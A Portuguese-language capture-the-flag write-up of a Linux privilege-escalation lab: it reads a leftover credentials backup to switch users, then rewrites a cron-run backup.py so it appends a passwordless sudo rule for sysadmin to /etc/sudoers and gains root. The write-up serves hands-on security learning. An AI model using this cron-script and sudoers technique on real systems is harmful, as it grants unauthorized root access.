






# Privesc Linux - 2

O laboratório já nos fornece a credencial para acesso via SSH.

```bash
ssh ctfplayer@<IP_MACHINE>
# password: ctfplayer2026
```



Durante a enumeração dos diretórios do usuário `ctfplayer`, identificamos arquivos e diretórios ocultos, entre eles `.config`. Ao acessar esse diretório, encontramos o subdiretório `app`, no qual identificamos um arquivo oculto chamado `.credentials.bak`.

```bash
ls -la
ls -la .config/app/
cat .config/app/.credentials.bak
```



Utilizando o comando `cat`, realizamos a leitura do conteúdo e identificamos a credencial do usuário `sysadmin` (serviço: servidor-interno).

Utilizando a credencial, realizamos a movimentação lateral para o usuário `sysadmin`. Após obtermos acesso, listamos os arquivos e diretórios e identificamos o arquivo `user.txt`. Ao realizar a leitura de seu conteúdo, encontramos nossa primeira flag.

```bash
su sysadmin
# password: <senha extraída>
cd ~
ls
cat user.txt
```



Verificando `notes.txt` do `sysadmin`, encontramos as tarefas pendentes e a informação importante sobre o backup automático:

```
TAREFAS:
- [x] Configurar backup automático
- [ ] Revisar permissões dos scripts em /opt/scripts
- [ ] Verificar se o cron está funcionando (checar /var/log/backup.log)
- [ ] Remover credenciais hardcoded

IMPORTANTE: O backup roda automaticamente. Não modificar sem avisar o time.
```



Sabemos que existe um script de backup automático em `/opt/scripts` que:

- roda via `cron`;
- Logs em `/var/log/backup.log`

Existem várias formas de explorar (obter Root). Uma delas é adicionar `sysadmin` ao `sudoers`.

Vamos alterar o conteúdo de `backup.py` para:

```python
import os
os.system("echo 'sysadmin ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
```

Aguardar ~1 minuto (tempo do cron) e executar o comando `sudo su`.

```bash
sudo su
whoami
```



Com o privilégio root, navegamos até `/root` e conseguimos obter nossa flag.

```bash
cat /root/root.txt
```




---
## Documentação complementar
- [Aprendizados e habilidades](LEARNINGS.md)
- [Roadmap metodológico](METHODOLOGY.md)
- [Conclusão e retrospectiva](CONCLUSION.md)
